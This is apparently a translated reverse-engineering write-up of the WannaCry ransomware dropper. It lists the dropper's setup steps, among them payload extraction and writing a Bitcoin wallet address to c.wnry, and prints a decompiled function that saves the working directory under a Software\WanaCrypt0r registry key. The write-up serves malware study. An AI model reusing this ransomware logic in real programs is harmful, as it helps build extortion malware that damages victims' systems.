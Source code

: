 - Write the registry
- Extract Payload
- Write Bitcoin wallet address to c.wnry
- hide the current working directory
- Full access to the current directory authorizations owner
- Initialize system calls

This is hidden inside the working directory, mention, and initialize the system call are nothing to say, the remaining few operations, the most difficult is ExtractFromResource, which release Payload from the resource segment. 

**Write the registry**

```C++
signed int __cdecl WriteRegistry(int flag)
{
  size_t nlen; 
  LSTATUS nStatus; 
  LSTATUS nRet; 
  char szDirPath[520]; 
  wchar_t szSoftware[100]; 
  DWORD cbData; 
  int nCount; 
  HKEY phkResult; 

  qmemcpy(szSoftware, aSoftware, 0x14u);
  szDirPath[0] = 0;
  phkResult = 0;
  memset(&szSoftware[10], 0, 180u);
  memset(&szDirPath[1], 0, 516u);
  *(_WORD *)&szDirPath[517] = 0;
  szDirPath[519] = 0;
  wcscat(szSoftware, Source);                   // Software\WanaCrypt0r
  nCount = 0;
  while ( 1 )
  {
    if ( nCount )
      RegCreateKeyW(HKEY_CURRENT_USER, szSoftware, &phkResult);
    else
      RegCreateKeyW(HKEY_LOCAL_MACHINE, szSoftware, &phkResult);
    if ( phkResult )
    {
      if ( flag )
      {
        GetCurrentDirectoryA(519u, szDirPath);
        nlen = strlen(szDirPath);
        nStatus = RegSetValueExA(phkResult, ValueName, 0, 1u, (const BYTE *)szDirPath, nlen + 1) == 0;// wd
      }
      else
      {
        cbData = 519;
        nRet = RegQueryValueExA(phkResult, ValueName, 0, 0, (LPBYTE)szDirPath, &cbData);
        nStatus = nRet == ERROR_SUCCESS;
        if ( !nRet )
          SetCurrentDirectoryA(szDirPath);
      }
      RegCloseKey(phkResult);
      if ( nStatus )
        break;
    }
    ++nCount;
    if ( nCount >= 2 )
      return 0;
  }
```